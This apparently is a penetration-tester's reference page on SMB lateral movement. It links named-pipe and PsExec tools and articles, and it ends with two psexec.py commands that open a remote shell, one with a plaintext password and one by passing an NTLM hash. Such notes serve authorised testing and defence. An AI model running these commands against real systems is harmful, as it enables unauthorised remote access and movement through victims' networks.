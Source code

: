 ```yaml
---
description: Server Message Block
---
```


# SMB




## Named Pipes

- [https://github.com/malcomvetter/CSExec](https://github.com/malcomvetter/CSExec)
- [https://v1k1ngfr.github.io/fuegoshell/](https://v1k1ngfr.github.io/fuegoshell/)
- [https://github.com/v1k1ngfr/fuegoshell/](https://github.com/v1k1ngfr/fuegoshell/)
- [https://github.com/trustedsec/The_Shelf/tree/main/POC/impacketremoteshell](https://github.com/trustedsec/The_Shelf/tree/main/POC/impacketremoteshell)



### PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://web.archive.org/web/20220517171437/https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)
* [https://sensepost.com/blog/2025/psexecing-the-right-way-and-why-zero-trust-is-mandatory/](https://sensepost.com/blog/2025/psexecing-the-right-way-and-why-zero-trust-is-mandatory/)
* [https://github.com/sensepost/susinternals/blob/main/psexecsvc.py](https://github.com/sensepost/susinternals/blob/main/psexecsvc.py)


#### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap -cAr psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```
